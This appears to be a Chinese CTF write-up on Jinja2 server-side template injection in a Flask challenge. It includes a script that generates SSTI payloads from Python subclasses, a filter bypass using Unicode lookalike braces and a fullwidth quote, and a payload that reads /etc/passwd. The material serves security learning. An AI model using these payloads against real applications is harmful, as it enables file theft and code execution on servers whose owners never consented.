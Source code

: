 
寻找function的过程可以用一个小脚本解决, 脚本找到被重载过的function，然后组成payload

解释

`#!/usr/bin/python3 # coding=utf-8 # python 3.5 from flask import Flask from jinja2 import Template # Some of special names searchList = ['__init__', "__new__", '__del__', '__repr__', '__str__', '__bytes__', '__format__', '__lt__', '__le__', '__eq__', '__ne__', '__gt__', '__ge__', '__hash__', '__bool__', '__getattr__', '__getattribute__', '__setattr__', '__dir__', '__delattr__', '__get__', '__set__', '__delete__', '__call__', "__instancecheck__", '__subclasscheck__', '__len__', '__length_hint__', '__missing__','__getitem__', '__setitem__', '__iter__','__delitem__', '__reversed__', '__contains__', '__add__', '__sub__','__mul__'] neededFunction = ['eval', 'open', 'exec'] pay = int(input("Payload?[1|0]")) for index, i in enumerate({}.__class__.__base__.__subclasses__()):     for attr in searchList:         if hasattr(i, attr):             if eval('str(i.'+attr+')[1:9]') == 'function':                 for goal in neededFunction:                     if (eval('"'+goal+'" in i.'+attr+'.__globals__["__builtins__"].keys()')):                         if pay != 1:                             print(i.__name__,":", attr, goal)                         else:                             print("{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='" + i.__name__ + "' %}{{ c." + attr + ".__globals__['__builtins__']." + goal + "(\"[evil]\") }}{% endif %}{% endfor %}")`

### 回顾本题

![2.png](https://adworld.xctf.org.cn/media/common/db1c53fb-9b9f-489e-849f-4cec8dbc0dfc.png)  
抓包发现是python3.7.9，而且有输入框，第一反应想到的便是ssti模板注入，但是过滤了`{ }`，之前遇到的都是过滤了`{{`，这种还好绕过，回归到题目，发现了

![3.png](https://adworld.xctf.org.cn/media/common/194101be-c30e-43eb-b3ff-e12f4b432276.png)  
字符规范器，是不是找一些特殊字符可以恢复成`{`这种形式，就找一下跟`{`类似的特殊符号试一下

特殊字符网址：http://www.fhdq.net/

![4.png](https://adworld.xctf.org.cn/media/common/e1b31962-19fe-4631-8ba7-8938ab590ad1.png)

![5.png](https://adworld.xctf.org.cn/media/common/e6c46820-41db-486e-98c5-2aa0feb698d4.png)

可以替换成功

```
︷︷config︸︸
```

![6.png](https://adworld.xctf.org.cn/media/common/febc241a-16d9-4ab9-89f3-f1d415565aad.png)

在测试过程中发现单引号也被过滤掉，`＇`这个符号可以转换出`'`

![7.png](https://adworld.xctf.org.cn/media/common/7bb6f0bc-4d2a-49c3-9487-06b8d5016e97.png)

构造如下payload

```
︷︷().__class__.__bases__[0].__subclasses__()[177].__init__.__globals__.__builtins__[＇open＇](＇/etc/passwd＇).read()︸︸
```

![8.png](https://adworld.xctf.org.cn/media/common/878737d8-1e4b-422d-9192-14a3c6c74833.png)  
可以读出`/etc/passwd`文件的内容，最后读取flag就可以了
